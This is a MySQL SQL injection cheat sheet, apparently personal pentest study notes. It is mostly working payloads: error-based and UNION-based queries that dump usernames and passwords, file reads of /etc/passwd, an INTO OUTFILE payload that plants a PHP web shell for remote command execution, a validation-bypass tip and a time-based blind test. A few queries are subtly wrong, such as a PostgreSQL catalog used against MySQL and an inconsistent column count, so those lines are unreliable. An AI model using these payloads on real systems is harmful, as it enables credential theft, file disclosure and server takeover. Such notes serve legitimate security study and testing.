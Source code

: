 # MySQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

Utilize [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) for additional guidance

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
'' OR 1=1 in (SELECT @@version) -- //

# We can now attempt to dump table information
'' OR 1=1 in (SELECT * FROM users) -- //

# In the case where we can only query one column at a time
'' OR 1=1 in (SELECT password FROM users) -- //

# We can now specify a user to dump the password for
'' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
'' ORDER BY 1 -- //
'' ORDER BY 1,2 -- //
'' ORDER BY 1,2,3 -- //
'' ORDER BY 1,2,3,4 -- //
'' ORDER BY 1,2,3,4,5 -- //
'' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
'' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
'' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
'' UNION SELECT null, database(), user(), @@version, null -- //

# Now we can query all databases available for us to enumerate (note: information_schema is default)
'' UNION SELECT null, datname, null, null, null FROM pg_database -- //

# We can now query tables for our desired databases
'' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
'' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
'' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //

# We now have all the information we need to query table data
'' UNION SELECT null, username, password, description, null FROM users -- //
'' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
'' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
'' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
'' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Boolean-Based Blind SQL Injection

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
'' AND IF (1=1, sleep(2),'false') -- //
```
